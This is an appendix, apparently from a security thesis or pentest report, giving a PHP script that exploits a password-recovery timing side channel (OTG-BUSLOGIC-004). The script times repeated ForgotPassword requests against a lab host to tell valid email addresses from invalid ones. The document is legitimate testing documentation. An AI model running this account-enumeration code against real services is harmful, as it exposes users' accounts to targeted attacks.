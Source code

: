 \chapter{PHP Scripts for Exploiting Vulnerability OTG-BUSLOGIC-004}

\section{PHP Script  for Calculating the response time average of the password recovery service for valid an invalid response email addresses}
\label{appendix:average}


The script uses the function "curl" to send a POST-Request to the Rest-Service "ForgotPassword". The two parameters of this POST Request are the name of the service and the email address for which an new password should be set. With "$responseTime = curl_getinfo($curl,CURLINFO\_TOTAL\_TIME" we can get the response time for this request. This request are sent 100 times for each a valid and an invalid email address. For each an average is computed an shown in the bash.

\begin{lstlisting}
<?php

$validResponseTime = 0.0;
$invalidResponseTime = 0.0;
for ($i = 1; $i <= 100; $i++) {
$validResponseTime += responseTimeForRequest("employee@next9.com");
}
$validAverage = $validResponseTime/100;
echo "Average Response Time for valid address: ".$validAverage."\n";

for ($i = 1; $i <= 100; $i++) {
$invalidResponseTime += responseTimeForRequest("abc@next9.com");
}
$invalidAverage = $invalidResponseTime/100;
echo "Average Response Time for invalid address: ".$invalidAverage."\n";

function responseTimeForRequest($email) {
$service_url = 'https://192.168.56.101/rest/index';
$curl = curl_init($service_url);
$curl_post_data = array(
'service' => "forgotPassword",
'email' => $email );

curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
curl_setopt($curl, CURLOPT_POST, true);
curl_setopt($curl, CURLOPT_POSTFIELDS, $curl_post_data);
$curl_response = curl_exec($curl);
return $responseTime = curl_getinfo($curl,CURLINFO_TOTAL_TIME);
}

?>
\end{lstlisting}

\chapter{PHP Script for validating email address via response time}
\label{appendix:validate_via_time}

